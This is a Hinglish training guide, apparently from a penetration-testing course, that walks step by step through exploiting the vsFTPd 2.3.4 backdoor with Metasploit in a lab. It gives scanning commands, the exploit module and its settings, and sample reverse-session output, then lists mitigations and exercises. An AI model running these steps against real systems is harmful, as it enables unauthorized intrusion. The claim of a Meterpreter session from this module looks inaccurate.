

# Topic 17 - Complete Metasploit Exploitation Lifecycle

Metasploit Framework ke andar scanning se lekar compromise verification aur validation tak ki lifecycle ke standard stages hote hain. Is guide mein hum **vsFTPd 2.3.4 (Backdoor)** ko ek practical case study ke roop mein lekar is pure lifecycle ke concepts aur step-by-step methodology ko samjhenge.

---

## 🗺️ Exploitation Lifecycle Blueprint



---

## 📝 Step-by-Step Lifecycle Walkthrough

### Stage 1: Scanning (Information Gathering)
Sabse pehle target system par open ports aur active services ki identification ki jaati hai.
* **Method A (Nmap):** Local terminal se port 21 ko target kiya jata hai:
  ```bash
  nmap -p 21 -sV 192.168.98.129
  ```
* **Method B (Metasploit Auxiliary):** Msfconsole ke auxiliary database scanner se ports analyze kiye jate hain:
  ```text
  use auxiliary/scanner/ftp/ftp_version
  set RHOSTS 192.168.98.129
  run
  ```
* **Result (Evidence):** Scanner target system ka service banner return karta hai:
  `[+] 192.168.98.129:21 - FTP Banner: '220 (vsFTPd 2.3.4)'`

---

### Stage 2: Vulnerability Mapping (Mapping)
Service version confirm hone ke baad hum verify karte hain ki is software build par kaun se flaws ya CVE indexes exist karte hain.
* **CVE Reference Database Lookup:** NIST NVD search se hume pata chalta hai ki vsFTPd version 2.3.4 par **CVE-2011-2523** (Source code archive backdoor) registered hai.
* **Metasploit Search:** Framework database search filter run kiya jata hai:
  ```text
  search vsftpd
  # ya fir CVE ID se search:
  search cve:2011-2523
  ```
* **Result:** Metasploit target exploit module show karta hai:
  `exploit/unix/ftp/vsftpd_234_backdoor`

---

### Stage 3: Configuration & Variables Set Up
Sahi exploit module load hone ke baad hum validation errors ko dur karne ke liye iski settings complete karte hain.
* **Module Load Command:**
  ```text
  use exploit/unix/ftp/vsftpd_234_backdoor
  ```
* **Variables Configuration:**
  ```text
  set RHOSTS 192.168.98.129   # Target IP (Metasploitable)
  set LHOST 192.168.98.128    # Attacker IP (Kali Linux)
  ```
* **Verification:**
  ```text
  show options
  ```
  *(Check karein ki saari Required (Yes) configurations properly populated hain ya nahi).*

---

### Stage 4: Safe Validation Check (False Positive Check)
Target system ko bina compromise kiye security posture check karne ke liye `check` test run kiya jata hai.
* **Command:**
  ```text
  check
  ```
* **Result Analysis:**
  * `The target appears to be vulnerable`: Target confirm compromise ho sakta hai.
  * `The target is not vulnerable`: Server patched hai, exploit execution abort karein.

---

### Stage 5: Session Establishment & Analysis (Post-Exploit Concepts)
Vulnerability confirm hone par framework payload inject karta hai aur connection establish ho jata hai.
* **Execution Command:**
  ```text
  exploit
  ```
* **The Connection Mechanism:**
  * **Reverse TCP Connection:** Victim machine security boundary ko cross karke wapas Kali Linux (Attacker) ke listener port (`LPORT 4444`) par interface connect karti hai.
  * **Meterpreter Control:** Memory shell handler target control console open karta hai:
    `[*] Meterpreter session 1 opened (192.168.98.128:4444 -> 192.168.98.129:55572)`

---

## 🛡️ Mitigation & Defenses (Systems ko Secure Kaise Karein)

Real-world production environments mein is category ke attack surface ko block karne ke steps:

1. **Keep Software Updated:** Outdated vsFTPd server daemon ko stable, non-backdoored version par update karein.
2. **Close Unused Ports:** Agar FTP service business workflows ke liye required nahi hai, toh port 21 ko service registry se disable karein.
3. **Firewall Access Controls:** S.H.I.E.L.D. firewall policies block rules configure karein:
   ```bash
   sudo ufw deny proto tcp from any to any port 21
   ```

---

## 🧠 Practice Exercises

1. **Exercise 1 (Option Mapping):**  
   Agar exploit options set karte waqt `show options` mein `Required` value par `yes` likha ho par field empty ho, toh check run karne par kis type ka verification error generate hota hai?

2. **Exercise 2 (Reverse Shell vs Bind Shell):**  
   Firewalled internal network configurations mein Reverse TCP connection methodology, Bind TCP connections ke mukable zyada effective kyun mani jati hai?
